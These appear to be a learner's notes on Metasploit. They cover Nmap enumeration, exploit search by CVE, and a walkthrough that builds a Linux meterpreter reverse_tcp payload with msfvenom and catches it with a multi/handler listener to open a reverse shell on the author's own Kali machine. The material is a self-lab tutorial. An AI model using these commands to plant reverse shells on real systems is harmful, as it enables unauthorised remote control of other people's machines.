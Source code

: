 The first thing you do in terms of enumeration is using tools like NMap to find out what ports are open and what OS the system is using and what vulnerabilities we can find in order to exploit the system. Once we find the OS or the browser whose exploit is available in msfconsole we go ahead and start the process. 
The things we need to look for when we first find how we are going to exploit the system are the following things: 

$`RHOST -- This is the victim machine` 

$`LHOST -- This is the machine that we are attacking from, in our case the kali Linux` 

$`RPORT -- The target port` 

When we do options after we use any of the exploit, then if we do options we can see the parameters that are required. We must give the machine the parameters that say "required" 

The following steps should be followed in order to exploit a system. 

1. Search for the type of exploit that you will need. The examples for the way to look for exploits is as follows: 

$` search cve:2009 type:exploit platform:linux ` In this search line, we are looking for a CVE for 2009, the type we are looking for is exploit and the platform that we are looking the exploit for is Linux

$`Exploit -- gets you into a system` 

$`Payload -- lets system connect back to you`

When a payload is executed on a system, the listener is waiting. The listener being multi/handler. 

First we will do msfvenom, here we are exploiting our own machine so we do this outside of msfconsole in regular command prompt. 
In order to find the payloads to hack our own kali machine, we will be looking for the linux meterpreter. 

$`msfvenom --list payloads | grep meterpreter` The grep filter searches a file for a particular pattern of characters, and displays all lines that contain that pattern.
reverse_tcp allows the remote computer to connect to you. 

$`msfvenom --list format` This is the different types of formats that you can use. Since we are hacking a Linux machine, we will be using a elf file, which is the executable linux file. 

Creating a payload for your own Machine using MSFVENOM 

$`msfvenom --payload linux/x64/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 --format elf -o file1`

In the above statement, we are creating a payload for our own kali machine, we will be using the reverse_tcp payload, lhost being the host machine that we are using. We will be using the listenining port 4444 and our format will be elf since we are using a linux machine and elf is a executable linux file $`-o` is the output and we give the filename file 1 where the output will be saved to. 

Now we open another tab and go inside msfconsole, once we get the $`msf6` we type in $`use exploit/multi/handler` and once we press enter, we wil get the $`msf6 exploit(multi/handler)`We can know if we are inside the exploit if it turns red on the command line. We type info now and it will give us information about it. Once we get that, we type in $`show payloads` and grab the same payload the $`linux/x64/meterpreter/reverse_tcp`. We $`set payload` or we can also use $`setpayload 431 `(number, in our case it was 431 and paste the same payload. We type $`show options` again. We can see that in the Payload options. We need to set lhost, which is required. We set $`set lhost 10.0.2.15` After that just hit $`run`. This has started the listening process. 

We go back to the msfvenom tab, we execute the payload. In order to do so, we need to give it more permission, so we do the $`chmod +x file1`. the chmod command gives the file all the authority it needs to read, write and execute. 
$`./file1` Enter. 
Now we go back to the msfconsole. The meterpreter shell has opened. It has connected to the Kali Machine. If we type $`getuid` we can see that we are inside the kali machine. we can also use $`sysinfo` we can see different things in there. 

 







